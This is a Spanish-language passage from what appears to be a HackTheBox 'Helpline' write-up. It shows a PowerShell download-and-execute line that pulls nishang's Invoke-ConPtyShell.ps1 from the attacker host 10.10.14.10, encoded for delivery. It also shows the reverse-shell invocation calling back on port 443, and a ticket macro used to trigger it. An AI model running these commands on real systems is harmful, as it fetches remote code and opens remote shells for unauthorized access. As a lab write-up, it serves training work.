 Creo una sentencia en powershell que me permita enviarme una reverse shell a través de Invoke-ConPtyShell.ps1 de nishang, en formato UTF-16le y base64. Comparto el script con python y me quedo en escucha por netcat

```null
echo 'IEX(New-Object Net.WebClient).downloadString("http://10.10.14.10/Invoke-ConPtyShell.ps1")' | iconv -t utf-16le | xclip -sel clip
```

Modifico el script para añadirle lo que se tiene que ejecutar una vez se interprete

```null
cat Invoke-ConPtyShell.ps1 | tail -n 1
Invoke-ConPtyShell -RemoteIp 10.10.14.10 -RemotePort 443 -Rows 55 -Cols 209
```

Creo una macro que se ejecute cuando el remitente no contenga una cadena de caracteres dada y envío el ticket

<img src="/writeups/assets/img/Helpline-htb/6.png" alt="">
